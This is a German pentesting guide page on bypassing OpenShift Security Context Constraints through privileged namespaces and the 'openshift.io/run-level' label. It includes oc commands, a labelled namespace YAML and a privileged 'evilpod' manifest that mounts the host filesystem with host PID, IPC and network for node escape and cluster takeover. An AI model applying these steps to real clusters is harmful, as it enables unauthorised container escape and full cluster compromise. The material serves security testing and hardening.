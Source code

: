# Openshift - SCC Umgehung

**Der ursprüngliche Autor dieser Seite ist** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Privilegierte Namespaces

Standardmäßig gilt SCC nicht für die folgenden Projekte:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Wenn Sie Pods in einem dieser Namespaces bereitstellen, wird kein SCC durchgesetzt, was die Bereitstellung privilegierter Pods oder das Einhängen des Host-Dateisystems ermöglicht.

## Namespace-Label

Laut der RedHat-Dokumentation gibt es eine Möglichkeit, die SCC-Anwendung auf Ihrem Pod zu deaktivieren. Sie benötigen mindestens eine der folgenden Berechtigungen:

* Erstellen eines Namespaces und Erstellen eines Pods in diesem Namespace
* Bearbeiten eines Namespaces und Erstellen eines Pods in diesem Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spezielle Bezeichnung `openshift.io/run-level` ermöglicht es Benutzern, SCCs für Anwendungen zu umgehen. Gemäß der RedHat-Dokumentation, wenn diese Bezeichnung verwendet wird, werden keine SCCs auf alle Pods innerhalb dieses Namensraums durchgesetzt, wodurch effektiv alle Einschränkungen aufgehoben werden.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Label hinzufügen

Um die Bezeichnung in Ihrem Namensraum hinzuzufügen:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Um einen Namespace mit dem Label über eine YAML-Datei zu erstellen:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Jetzt sollten alle neuen Pods, die im Namespace erstellt werden, keine SCC haben

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In Abwesenheit von SCC gibt es keine Einschränkungen für Ihre Pod-Definition. Das bedeutet, dass ein bösartiger Pod problemlos erstellt werden kann, um auf das Host-System zu entkommen.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Jetzt ist es einfacher geworden, Berechtigungen zu eskalieren, um auf das Host-System zuzugreifen und anschließend die gesamte Cluster-Kontrolle zu übernehmen und 'cluster-admin'-Berechtigungen zu erlangen. Suchen Sie nach dem **Node-Post Exploitation**-Teil auf der folgenden Seite:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Benutzerdefinierte Labels

Darüber hinaus können je nach Zielsetup einige benutzerdefinierte Labels / Annotationen auf die gleiche Weise wie im vorherigen Angriffsszenario verwendet werden. Auch wenn es nicht dafür vorgesehen ist, könnten Labels verwendet werden, um Berechtigungen zu erteilen, Ressourcen einzuschränken oder nicht einzuschränken.

Versuchen Sie, benutzerdefinierte Labels zu finden, wenn Sie auf einige Ressourcen zugreifen können. Hier ist eine Liste interessanter Ressourcen:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste aller privilegierten Namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Fortgeschrittener Exploit

In OpenShift kann das Berechtigen zum Bereitstellen eines Pods in einem Namespace mit dem Label `openshift.io/run-level` wie zuvor demonstriert zu einer unkomplizierten Übernahme des Clusters führen. Aus der Perspektive der Cluster-Einstellungen **kann diese Funktionalität nicht deaktiviert werden**, da sie inherent im Design von OpenShift verankert ist.

Dennoch können **Sicherheitsmaßnahmen wie Open Policy Agent GateKeeper** Benutzer daran hindern, dieses Label zu setzen.

Um GateKeeper-Regeln zu umgehen und dieses Label zu setzen, um eine Cluster-Übernahme durchzuführen, **müssten Angreifer alternative Methoden identifizieren.**

## Referenzen

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
